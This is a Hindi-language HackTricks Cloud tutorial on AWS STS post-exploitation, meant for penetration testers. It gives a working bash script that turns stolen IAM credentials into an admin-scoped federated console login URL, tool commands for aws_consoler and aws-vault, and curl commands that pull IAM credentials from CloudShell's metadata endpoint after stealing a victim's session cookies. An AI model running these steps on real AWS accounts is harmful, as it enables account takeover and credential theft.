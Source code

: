 # AWS - STS के बाद का उपयोग

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **अपनी हैकिंग तरकीबें साझा करें, HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके.

</details>

## STS

अधिक जानकारी के लिए:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Creds से Console तक

यदि आपने कुछ IAM प्रमाणपत्र प्राप्त कर लिए हैं, तो आप निम्नलिखित उपकरणों का उपयोग करके **वेब कंसोल तक पहुँचने** में रुचि रख सकते हैं।\
ध्यान दें कि उपयोगकर्ता/भूमिका के पास **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### कस्टम स्क्रिप्ट

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (gov और cn नहीं) का उपयोग करेगी ताकि आपको एक हस्ताक्षरित URL प्रदान किया जा सके जिसका उपयोग आप वेब कंसोल के अंदर लॉगिन करने के लिए कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) के साथ **वेब कंसोल लिंक जनरेट** कर सकते हैं।
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे मान लिया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो AWS प्रमाणपत्रों को सुरक्षित रूप से संग्रहीत करने और विकास पर्यावरण में पहुँचाने के लिए है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके **browser console session** प्राप्त कर सकते हैं।
{% endhint %}

#### Console से IAM Creds तक

[**इस पोस्ट में पहली बार खोजा गया**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), यदि आप किसी वेब कंसोल तक पहुँचने में सफल होते हैं (शायद आपने कुकीज़ चुरा ली हैं और .aws फोल्डर तक पहुँच नहीं सकते), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell **1338 पोर्ट पर एक अप्रलेखित एंडपॉइंट** के माध्यम से IAM क्रेडेंशियल्स को उजागर करता है। पीड़ित की सत्र कुकीज़ को आपके ब्राउज़र में लोड करने के बाद, आप CloudShell पर नेविगेट कर सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड्स जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
